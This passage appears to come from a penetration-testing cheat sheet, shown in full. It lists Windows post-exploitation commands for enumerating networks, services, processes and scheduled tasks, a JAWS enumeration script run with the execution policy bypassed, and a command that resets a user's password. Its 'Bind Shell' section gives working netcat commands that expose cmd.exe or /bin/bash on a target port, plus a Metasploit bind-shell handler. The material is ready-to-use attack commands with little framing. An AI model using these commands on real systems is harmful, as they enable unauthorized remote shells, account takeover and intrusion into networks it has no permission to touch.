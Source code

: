 ```dos
:: Display arp table (arp cache to discover other IP addresses on the target network)
arp -a
:: Print route table (useful during the pivoting phase of post-exploitation as it can reveal network routes)
route print

:: Processes & Services
:: Lists services running
net start
:: Same as above with extra details like pid, active state, etc.
wmic service list brief
:: Stop a service
net stop <servicename>
:: List process with respecive services
tasklist /svc 
:: List scheduled tasks
schtasks /query /fo list /v
:: Automation : JAWS - https://github.com/411Hall/JAWS
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

:: Change Windows user password
net user <username> <new_pass>
```

## Bind Shell

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

```sh
# Windows (target)
nc -nvlp <target_port> -e cmd.exe 
nc.exe -nvlp <target_port> -e cmd.exe

# Linux (target)
nc -nvlp <target_port> -e /bin/bash

# Linux (attacker)
nc -nv <target_ip> <target_port>

# Windows (attacker)
nc.exe -nv <target_ip> <target_port>


# Linux Metasploit (attacker)
use multi/handler
set payload generic/shell_bind_tcp # Try also "linux/x64/shell_bind_tcp"
set rhost <target_ip>
set lport <target_port>
run
```
